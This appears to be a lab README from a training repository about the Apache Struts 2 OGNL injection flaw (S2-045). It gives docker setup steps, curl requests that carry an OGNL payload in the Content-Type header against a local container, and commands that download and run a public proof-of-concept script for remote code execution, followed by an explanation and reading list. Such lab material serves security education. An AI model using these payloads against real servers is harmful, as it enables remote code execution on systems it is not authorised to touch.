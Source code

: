 # 5. Apache Struts 2 OGNL Injection
## Subtitle / what it does
Apache Struts allows for injecting malicious Content-Type header which is later evaluated as OGNL Expression Language code. \
If an attacker is able to change security measures by executing appropriate OGNL code first, then there is possibility of regular Code Execution. \
If this vulnerability seem complex, please refer to "Recommended reading" section for useful lectures.

### Clear any existing containers
```
docker kill $(docker ps -q)
```

### Run in docker:
```
cd 5-apache-struts-2
docker-compose up -d
```

### Exploit:
```
curl -XPOST -H "Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('PWND',73*38)}.multipart/form-data" -v http://localhost:8080

```
### Proxy curl via Burp:
```
curl -XPOST --proxy http://127.0.0.1:8080 -H "Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('PWND',73*38)}.multipart/form-data" -v http://localhost:8080

```

![image](https://user-images.githubusercontent.com/31791455/140393499-ab5e5463-ea74-46c0-a746-c8457c23f773.png)


### Code execution:
The exploit requires unlocking some OGNL features before you can pass from simple code evaluation to full RCE.
Ready to use exploit can be found here: 
```
wget https://raw.githubusercontent.com/Medicean/VulApps/master/s/struts2/s2-045/poc.py
chmod +x ./poc.py
python2 poc.py "http://127.0.0.1:8080" "id"
```

![image](https://user-images.githubusercontent.com/31791455/140393300-96dba119-0002-4c2a-af5b-0a1704484a0a.png)


### Explanation
Apache Struts is a free, open-source framework for creating Java applications. It utilizes native dialect named OGNL (Object-Graph Navigation Language). It can be parsed in form of expressions, which makes related vulnerabilities similar to Server-Side Template Injections (in fact, it works in the same way as SSTIs).

### References and recommended reading
https://portswigger.net/research/server-side-template-injection
https://mindedsecurity.com/wp-content/uploads/2020/10/ExpressionLanguageInjection.pdf
https://www.reshiftsecurity.com/ognl-injection-primer-for-java-developers/
https://pentest-tools.com/blog/exploiting-ognl-injection-in-apache-struts/
https://nsfocusglobal.com/apache-struts2-remote-code-execution-vulnerability-s2-045/

### Credits:
https://github.com/vulhub/vulhub/tree/4d17ab2d4df39eefad5c498c5aa60b036a05494d/struts2/s2-045
